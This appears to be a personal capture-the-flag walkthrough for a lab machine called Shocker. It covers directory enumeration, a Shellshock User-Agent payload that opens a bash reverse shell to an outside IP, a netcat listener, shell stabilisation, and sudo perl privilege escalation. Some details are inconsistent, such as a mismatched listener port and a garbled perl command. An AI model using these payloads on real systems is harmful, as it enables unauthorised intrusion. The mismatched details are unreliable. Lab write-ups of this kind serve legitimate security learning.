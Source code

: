 ```yaml
---
title: "Shocker Writeup"
date: "2019-03-11"
description: "Sample article showcasing basic Markdown syntax and formatting for HTML elements."
FRtags: ["markdown", "css", "html", "themes"]
FRcategories: ["themes", "syntax"]
FRseries: ["Themes Guide"]
aliases: ["migrate-from-jekyl"]
ShowToc: true
TocOpen: true
weight: 2
---
```


```bash
# Shocker
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
-   ```
    perl -e 'exec "cat /root";'
    ```
```
#### Solving
- start off by doing an nmap scan
- after doing the nmap scan you should notice there are two ports that are shown to be opened
- the first port is 80, and the second is 2222
- port 80 is http, and is likely hosting a web page
- port 2222 is hosting ssh which is uncommon 
- after visting the web page, I see that there isnt much on it
- I will now use dirbuster ( a tool used to bruteforce directories using a wordlist )
- after using dirbuster I see that there is a directory for /cgi-bin
- CGI = (commen gateway interface)
- This file path is used to host scripts that use enviorment varibles that interact with the web browser 
- after visting the page I can see I get a error 403 which means this page exists but is forbidden
- I can use dirbuster agian to scan the directories inside ofthe directory /cgi-bin/
- in dirbuster I can specify that I want to look for a specific file type 
- in this case I am going to search for script file extensions (example: sh, py, php etc...)
- after doing this I have found a user.sh 
- When i vist the page /cgi-bin/user.sh it downloads a file for user.sh which is a short script for checking uptime or some bullshit
- I will look at the get/post request in burp suite
- I can see based off the cgi-bin that this web page may be vunerable to a shellshock attack
- shellshock is a remote code exectution vunurabity that often doesnt have comfirmation
- all that means is that you may be able to execute code on the backend server, but unless specifically using something to echo a response back you might not see anything 
- you can also see a response back though the http header response 
- in burp suite I am going to focus on the user agent parameter in the http request 
- inside of the user-agent area I am going to try and use a basic shellshock
```bash
() { :; }; echo; echo ls 
```
- now that I have been able to test that remote code execution is possible I can try to get a reverse shell through
- The reverse shell command I used is above 
- I will have to listen for the reverse shell using netcat
```bash
nc -lvnp 80 
```
- You should now be able to access the shell 
- now you have to upgrade to a more stable shell 
```bash
    # <catch reverse shell>
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    # (inside the nc session) PRESS CTRL+Z to background your shell
    
    # back in your terminal enter
    stty raw -echo; fg
    # may need to hit enter a couple times
    
    # now you should be back in your reverse shell (fg, foregrounds your "backgrounded" process)
    export SHELL=/bin/bash; export TERM=screen
    
    # for this part you need to know the size of your terminal, which you can figure out by typing `stty size`, but this has to be done BEFORE you catch your reverse shell
    # once you know this, you can change "38" and "116" in the command below, and execute it in your reverse shell
    stty rows 38 columns 116; reset;
```
- now you can use subl to see what commands the current user can use with sudo permissions
- you can also check your permissions using groups to see what group your in
- you can also use "cat /etc/passwd" to see what shell your user is using 
- on this machine I can see that I am using perl so I will 
- seeing that this machine allows me to run perl with sudo permissions is a hint that perl will be my exploit
- I can use GTF-BINs to break bash 
- make sure to run the command from GTFO Bin as sudo
- This is becuase perl is one of the commands the current user is aloowed to run with sudo permissions


### upgrading shell 
- you have to use pythons pty to spawn a bash shell
- python3 -c 'import pty;pty.spawn("/bin/bash")'
- after that you will wantto background the shell (CTRL+Z)
- while in ur host machines shell you can check some information
- you can use "stty -a" to get you terminals demensions
- and "echo $TERM" to check your terminals color
- then run "stty raw -echo"
